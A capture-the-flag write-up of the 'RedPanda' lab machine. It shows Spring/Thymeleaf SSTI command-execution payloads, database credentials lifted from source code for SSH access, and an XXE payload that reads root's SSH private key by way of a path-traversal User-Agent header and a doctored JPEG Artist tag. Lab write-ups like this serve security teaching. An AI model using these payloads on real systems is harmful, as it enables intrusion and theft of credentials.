## Foothold
### NMAP
```bash
nmap -sC -sV -v -T4 -oN scans/nmap.txt redpanda.htb 
```

```text
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy
```

### Website

Based on the `nmap` scan we know port `8080` is open and running a web server.

  

There's a search input on the site, let's load up Burp to send it some malicious payloads.

Sending simple payloads for things like SQLi don't seem to work.

### SSTI

I noticed that the site's title was `Red Panda Search | Made with Spring Boot`. [Spring Boot](https://www.ibm.com/cloud/learn/java-spring-boot) is actually an add-on for the [Spring Framework](https://spring.io/) which is a `Java` framework.

Now that we know the site uses `Java` we can find some Java SSTI payloads. Searching for `Spring Framework SSTI` yields us this [result](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/).

There's quite a few prefix's we can try, I'll just manually try each one to see which one works.

  

The first payloads I tried was `${7*7}` which didn't work as it was blocked for `banned characters`.

  

However, the next prefix `*` worked!

  

Now we just have to find a payload that lets us execute commands and attempt to get a foothold.

I eventually found a slightly working payload for [Spring View](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java) however it doesn't show the entire string.

  

I came across a [GitHub Repo](https://github.com/VikasVarshney/ssti-payload) and modified the payload they used resulting in the following.

```python
...
		payload='''${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)''' % decimals[0]
		
		for i in decimals[1:]:
			line='.concat(T(java.lang.Character).toString({}))'.format(i)
			payload+=line

		payload+=').getInputStream())}'
...
```

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').toString()).getInputStream()}
```

  

Now that we have code execution on the machine, let's get a shell.

### Credentials

I tried a a few bash reverse shells as well as some meterpreter shells without success. Instead I thought that the search might be making some sort of connection to a database so I'll search for credentials instead.

  

I used `ls -R /opt` to list all the files and subdirectories to see if there's anything.

  

`MainController.java` seems like it would contain the code for the `panda_search` application. Unfortunately it looks like the word `panda` is blocked in the SSTI. I'll use the python script that we found previously.

  

We get the code for the file back and it contains credentials to a `mysql` database.

  

```java
public ArrayList searchPanda(String query) {

        Connection conn = null;
        PreparedStatement stmt = null;
        ArrayList&lt;ArrayList&gt; pandas = new ArrayList();
        try {
            Class.forName(&quot;com.mysql.cj.jdbc.Driver&quot;);
            conn = DriverManager.getConnection(&quot;jdbc:mysql://localhost:3306/red_panda&quot;, &quot;woodenk&quot;, &quot;RedPandazRule&quot;);
            stmt = conn.prepareStatement(&quot;SELECT name, bio, imgloc, author FROM pandas WHERE name LIKE ?&quot;);
            stmt.setString(1, &quot;%&quot; + query + &quot;%&quot;);
            ResultSet rs = stmt.executeQuery();
            while(rs.next()){
                ArrayList&lt;String&gt; panda = new ArrayList&lt;String&gt;();
                panda.add(rs.getString(&quot;name&quot;));
                panda.add(rs.getString(&quot;bio&quot;));
                panda.add(rs.getString(&quot;imgloc&quot;));
		panda.add(rs.getString(&quot;author&quot;));
                pandas.add(panda);
            }
        }catch(Exception e){ System.out.println(e);}
        return pandas;
    }
```

```text
woodenk:RedPandazRule
```

Let's try using this to SSH into the target.

```bash
ssh woodenk@redpanda.htb
```

And we're in!

  

## Privilege Escalation

Now that we have a shell I want to look more into the `java` files in the `/opt` directory.

```bash
cd /opt
ls -R ./ | grep .java
```

  

### Source Code Analysis

We have a few other files we could look at. I'll first go back to `MainController.java`.

The following snippets of code is interesting because it's referencing an `.xml` file which seems to contain a few attributes. I'm not sure where this file originates from so I'll check out the other `.java` files to see if they generate the `.xml` file.

```java
@GetMapping(value="/export.xml", produces = MediaType.APPLICATION_OCTET_STREAM_VALUE)
	public @ResponseBody byte[] exportXML(@RequestParam(name="author", defaultValue="err") String author) throws IOException {

		System.out.println("Exporting xml of: " + author);
		if(author.equals("woodenk") || author.equals("damian"))
		{
			InputStream in = new FileInputStream("/credits/" + author + "_creds.xml");
			System.out.println(in);
			return IOUtils.toByteArray(in);
		}
		else
		{
			return IOUtils.toByteArray("Error, incorrect paramenter 'author'\n\r");
		}
	}
```

```java
...
String path = "/credits/" + author + "_creds.xml";
File fd = new File(path);
Document doc = saxBuilder.build(fd);
Element rootElement = doc.getRootElement();
String totalviews = rootElement.getChildText("totalviews");
			List<Element> images = rootElement.getChildren("image");
for(Element image: images)
	System.out.println(image.getChildText("uri"));
model.addAttribute("noAuthor", false);
model.addAttribute("author", author);
model.addAttribute("totalviews", totalviews);
model.addAttribute("images", images);
return new ModelAndView("stats.html");
...
```

If we checkout `App.java` we now know that this generates the `.xml` file as well as a few other things.

The following function takes in the `redpanda.log` file and extracts data such as the `User Agent` and `URI` of the request.

```java
public static Map parseLog(String line) {
	String[] strings = line.split("\\|\\|");
	Map map = new HashMap<>();
	map.put("status_code", Integer.parseInt(strings[0]));
	map.put("ip", strings[1]);
	map.put("user_agent", strings[2]);
	map.put("uri", strings[3]);

	return map;
}
```

The `getArtist` function takes in the `URI` previously extracted and then uses that to specify a `.jpg` image. It then gets the metadata of the image and uses the `Artist`.

```java
public static String getArtist(String uri) throws IOException, JpegProcessingException
{
	String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
	File jpgFile = new File(fullpath);
	Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
	for(Directory dir : metadata.getDirectories())
	{
		for(Tag tag : dir.getTags())
		{
			if(tag.getTagName() == "Artist")
			{
				return tag.getDescription();
			}
		}
	}

	return "N/A";
}
```

The `addToView` function takes the path of the `.xml` file and the `URI` updates the `.xml` file with new `totalviews` and `views` values. From this code we can also get a sense of the structure of the `.xml` file.

It should look something like this:

```xml
<artist>
	<author></author>
	<image>
		<uri></uri>
		<views></views>
	</image>
	<totalviews></totalviews>
</artist>
```

### Exploitation

We can use `XXE` to copy of the contents of root's `id_rsa` into the `.xml` file when its accessed. Name this file as per the code to `test_creds.xml`.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ssh SYSTEM "file:///root/.ssh/id_rsa"> ]>
<artist>
	<author>damian</author>
	<image>
		<uri>/../../../../../../../home/woodenk/test.jpg</uri>
		<data>&ssh;</data>
		<views>0</views>
	</image>
	<totalviews>0</totalviews>
</artist>
```

Now we just need to get any `.jpg` file and add an `Artist` metadata tag containing the path to the `.xml` file as per the following code snippet.

```java
// App.java
...
File jpgFile = new File(fullpath);
Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
...

// MainController.java
...
String path = "/credits/" + author + "_creds.xml";
...
```

```bash
exiftool -Artist="../home/woodenk/test" test.jpg
```

Now we need to upload both the `.xml` and `.jpg` file to the target's `woodenk` home directory. We can just use `python` and `curl`.

```bash
python3 -m http.server 80
```

```bash
curl http://10.10.16.41/test.jpg -o test.jpg
curl http://10.10.16.41/test_creds.xml -o test_creds.xml
```

Now with those files uploaded, to execute the `XXE` attack we need to make a request using the modified `User Agent` and then export an artist.

```bash
curl http://redpanda.htb:8080/ -H "User-Agent: ||/../../../../../../../home/woodenk/test.jpg"
```

We check that this worked by looking at the `redpanda.log` file in the `/opt/panda_search` directory.

  

If we nagivate to the `/stats` page and click on `damian`, then click `Export table` this should access our `.xml`.

  

If we check our `.xml` file we now see that root's `id_rsa` has been copied.

  

### Root

We can now SSH in as root!

```bash
chmod 600 id_rsa
ssh root@redpanda.htb -i id_rsa
```

  